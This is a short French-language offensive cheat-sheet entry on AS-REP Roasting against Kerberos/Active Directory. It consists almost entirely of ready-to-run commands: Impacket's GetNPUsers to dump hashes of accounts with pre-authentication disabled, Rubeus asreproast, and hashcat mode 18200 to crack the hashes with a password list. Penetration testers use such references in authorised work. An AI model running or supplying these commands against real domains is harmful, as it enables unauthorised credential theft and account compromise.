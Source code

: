 ## AS-REP Roasting
AS-REP Roasting vide les hachages krbasrep5 des comptes d'utilisateurs pour lesquels la pré-authentification Kerberos est désactivée.

**Impacket**

```sh
impacket-GetNPUsers.py target.local/user:password -dc-ip 192.168.x.x -request
```

**Rubeus**

```sh
C:\User\Administrator> Rubeus.exe asreproast
```

```sh
hashcat -m 18200 hash.txt Pass.txt
```
